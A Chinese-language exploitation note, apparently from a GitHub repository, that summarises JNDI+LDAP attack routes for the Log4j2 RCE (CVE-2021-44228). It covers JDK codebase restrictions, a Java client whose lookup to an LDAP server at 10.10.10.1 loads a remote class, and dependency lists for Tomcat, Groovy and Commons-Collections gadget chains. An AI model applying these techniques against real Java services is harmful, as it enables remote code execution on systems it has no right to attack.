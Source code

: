 ### 缘起Log4j2 

因为 Log4j2 RCE(CVE-2021-44228)的出现，所以顺便把JNDI+LDAP的利用姿势一并总结。
利用需要注意的限制

- java.rmi.server.useCodebaseOnly
  - 默认值为true，禁止自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。
- com.sun.jndi.rmi.object.trustURLCodebase
  - 默认为false，禁止RMI和CORBA协议使用远程codebase的选项
- com.sun.jndi.ldap.object.trustURLCodebase
  - 默认为false，禁止LDAP协议使用远程codebase的选项


### JNDI via LDAP

#### 0x01 理想环境(trustURLCodebase == true) 

LDAP客户端：LDAPClient.java
```java
package ldap;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LDAPClient {
    public static void main(String[] args) throws NamingException {
        /**
         * 注意：JDK 11.0.1、8u191、7u201、6u211 com.sun.jndi.ldap.object.trustURLCodebase 默认为false
         * 所以：在进行JNDI利用时，需要注意目标使用的JDK版本
         */
        Context ctx = new InitialContext();
        ctx.lookup("ldap://10.10.10.1:1389/badClassName");
    }
}
```

LDAP服务端：[LDAPKit](https://github.com/EmYiQing/LDAPKit) （改了一下，加了一些链进去）

![image](jndi.assets/145824043-3627762c-f77a-46e5-89e1-db3d60974bf8.png)

测试效果：

![image](jndi.assets/145824238-f1604171-0d61-4c23-bcd9-0de3391272a6.png)

#### 0x02 Tomcat v8+

Tomcat v8+
- org.apache.naming.factory.BeanFactory
- javax.el.ELProcessor

依赖环境
```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
    <version>8.5.61</version>
</dependency>
````


#### 0x03 Groovy （

依赖环境
```xml
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-all</artifactId>
    <version>1.5.0</version>
</dependency>
```


#### 0x04 javaSerializedData属性+Gadgets(如CC链)

依赖环境
```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

起一个LDAP + CC05的服务端：
![image](jndi.assets/145829752-3b2cdc81-06ef-4cb2-8d57-258af89604fc.png)

测试效果：

![image](jndi.assets/145829956-4d622421-53d3-40d8-a659-fa3328f76623.png)





